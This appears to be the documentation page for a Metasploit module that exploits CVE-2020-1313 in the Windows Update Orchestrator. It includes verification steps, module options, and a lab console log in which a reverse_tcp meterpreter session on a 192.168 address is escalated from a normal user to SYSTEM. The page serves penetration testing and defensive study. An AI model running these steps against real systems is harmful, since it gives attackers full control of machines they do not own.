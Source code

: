 ## Vulnerable Application

Windows 10 and Server x64 build versions above 17763  to 19041.

### Introduction

This module abuses CVE-2020-1313, a unchecked API call that allows a
regular user to schedule a job that will run as system.  The API call,
`ScheduleWork`, will create a task in the System Update Orchestrator
automatically scheduled to run at a time when the system is expected
to be idle.  The user cannot request or affect the scheduled time of
execution.  The scheduled job data is stored in
`HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate\\Orchestrator\\UScheduler\\x`
Where `x` is a numeric key assigned to the job.

## Verification Steps

  1. Start msfconsole
  2.  use exploit/multi/handler
  3. set payload <payload>
  4. set [r|l]host
  5. run (leave running)
  6. Start msfconsole
  7. use windows/local/cve_2020_1313_system_orchestrator
  8. set session <session>
  9. set payload <payload_matching_above>
  10. set verbose true
  11. Verify The job is scheduled
  12. Leave everything running
  13. Go to bed
  14. Have a healthy Breakfast, maybe some coffee if you want
  15. verify you got a callback as SYSTEM

## Options

### EXECUTE_DELAY
  The number of seconds to sleep after uploading the exploit and
  launching it.

### EXPLOIT_NAME
  The name of the exploit EXE as it will appear on target
  
### EXPLOIT_TIMEOUT
  The maximum time to wait for a response from the exploit binary.

### PAYLOAD_NAME
  The name of the payload EXE as it will appear on target

### WRITABLE_DIR
  Directory to use for file upload and linking; this should not already
  exist.  This directory will require manual cleanup.

## Scenarios

### Tested on Windows10 x64 Release 1903

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 12 opened (192.168.135.197:4567 -> 192.168.132.134:49678) at 2020-09-21 19:05:44 -0500
sessions -i -1
[*] Starting interaction with 12...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 12...
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > show options

Module options (exploit/windows/local/cve_2020_1313_system_orchestrator):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          11               yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4568             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/cve_2020_1313_system_orchestrator) > set session 12
session => 12
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > run

[*] Build Number = 18362
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 12
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Uploading Payload to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[*] Running Exploit
[*] Exploit Output:
Obtaining reference to IUniversalOrchestrator
Scheduling work with id 47790
Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
[*] Cleaning up C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[+] Payload Scheduled for execution at 2020-09-22 08:53:47 -0500
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > 

[SECONDARY WINDOW FOR CALLBACK]
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run -j
msf exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444

msf exploit(multi/handler) > set lport 4568
lport => 4568
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.135.197:4568 
msf exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4568

msf exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4568 -> 192.168.132.134:49681) at 2020-09-21 20:09:45 -0500
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-CL5L2IH  192.168.135.197:4568 -> 192.168.132.134:49681 (192.168.132.134)

msf exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
